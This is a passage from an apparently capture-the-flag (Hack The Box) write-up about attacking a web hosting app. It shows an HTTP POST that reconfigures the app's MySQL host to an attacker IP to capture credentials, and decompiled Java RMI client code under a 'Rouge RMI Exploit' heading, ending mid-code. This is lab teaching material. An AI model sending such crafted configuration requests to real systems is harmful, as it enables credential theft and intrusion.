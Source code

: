 ```java

      sessionFactory = configuration.buildSessionFactory(serviceRegistry);
      return sessionFactory;
   }
}
```

```http
POST /hosting/reconfigure HTTP/1.1
Host: www.webhosting.htb
Cookie: JSESSIONID=434656A966EE4443201F34C61DC8F39B
Content-Length: 102
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://www.webhosting.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.webhosting.htb/hosting/reconfigure
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close

mysql.user=root&mysql.password=pass&mysql.host=10.10.14.81&domains.max=2
```

So after spending a lot of time on this idea (redirecting mysql server to kali and capturing the credential) i found out that this is just a mean rabbit hole 😡

##### Rouge RMI Exploit

```java
/*
 * Decompiled with CFR 0.144.
 */
package com.htb.hosting.rmi;

import com.htb.hosting.rmi.FileService;
import com.htb.hosting.utils.config.Settings;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.logging.Logger;

public class RMIClientWrapper {
    private static final Logger log = Logger.getLogger(RMIClientWrapper.class.getSimpleName());

    public static FileService get() {
        try {
            String rmiHost = Settings.get(String.class, "rmi.host", null);
            if (!rmiHost.contains(".htb")) {
                rmiHost = "registry.webhosting.htb";
            }
            System.setProperty("java.rmi.server.hostname", rmiHost);
            System.setProperty("com.sun.management.jmxremote.rmi.port", "9002");
```